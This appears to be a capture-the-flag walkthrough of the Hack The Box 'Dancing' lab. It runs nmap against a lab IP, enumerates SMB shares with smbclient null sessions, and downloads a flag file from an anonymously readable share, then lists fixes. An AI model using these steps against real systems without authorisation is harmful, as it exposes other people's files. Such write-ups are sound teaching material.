


# Dancing

**Tier / Type:** Starting Point - Tier 0
**Difficulty:** Very Easy
**Skills practiced:** nmap, SMB enumeration, null session

---

## Overview

Dancing introduces the SMB protocol (Windows file sharing) and the risk of shares
that allow access without valid credentials. The goal is to connect to an exposed
SMB share using a null session and read the flag.

## Enumeration

I ran a fast nmap service scan:

```bash
nmap -sV -F 10.129.122.192
```

The scan showed the typical Windows SMB stack:

- **135/tcp - msrpc**
- **139/tcp - netbios-ssn**
- **445/tcp - microsoft-ds (SMB)**

Port 445 is the one to focus on. The next step is to list the available shares
and see whether any allow access without credentials.



## Enumerating SMB shares

I listed the shares with smbclient using a null session (`-N` = no password):

```bash
smbclient -L //10.129.122.192/ -N
```

This returned the default admin shares (ADMIN$, C$, IPC$) plus one non-default
share that stood out - **WorkShares** - which is worth investigating.



## Gaining access & findings

I connected to the WorkShares share with a null session - no credentials needed,
which is the core misconfiguration:

```bash
smbclient //10.129.122.192/WorkShares -N
```

Inside the share were two user folders, `Amy.J` and `James.P`. I enumerated both:

```bash
ls
cd Amy.J
ls            # worknotes.txt (not the flag)
cd ..
cd James.P
ls            # flag.txt
get flag.txt  # download it
exit
```

The flag lived in `James.P/flag.txt`. I read it locally:

```bash
cat flag.txt
```

It was readable because the share permitted anonymous (null session) access.
(Flag value omitted.)


## What I learned

SMB shares that allow null/guest sessions expose their contents to anyone who can
reach the host. Combined with user files stored on those shares, this is a common
real-world data-exposure issue. The fix: require authentication on shares, disable
guest/anonymous access, and restrict who can reach SMB (port 445) over the network.

## References / concepts

- SMB (TCP/445): Windows file sharing; null/anonymous sessions are a frequent
  misconfiguration.
- `smbclient -L` (list shares) and `-N` (no password / null session).
